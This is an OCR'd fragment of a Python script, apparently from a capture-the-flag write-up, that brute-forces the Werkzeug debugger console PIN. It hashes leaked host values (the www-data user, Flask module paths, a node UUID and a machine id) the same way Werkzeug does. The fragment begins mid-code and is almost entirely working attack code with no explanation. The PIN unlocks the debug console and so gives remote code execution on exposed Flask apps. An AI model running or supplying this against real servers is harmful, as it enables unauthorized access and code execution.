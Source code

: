 ```python
            node_uuid,
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['www-data']
    modnames = ['superpass.app','flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']
    flaskpaths = ['/app/venv/lib/python3.10/site-packages/flask/app.py']
    nodeuuids = ['345052407874']
    machineids = ['ed5b159560f54721827644bc9b220d00superpass.service']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')

```
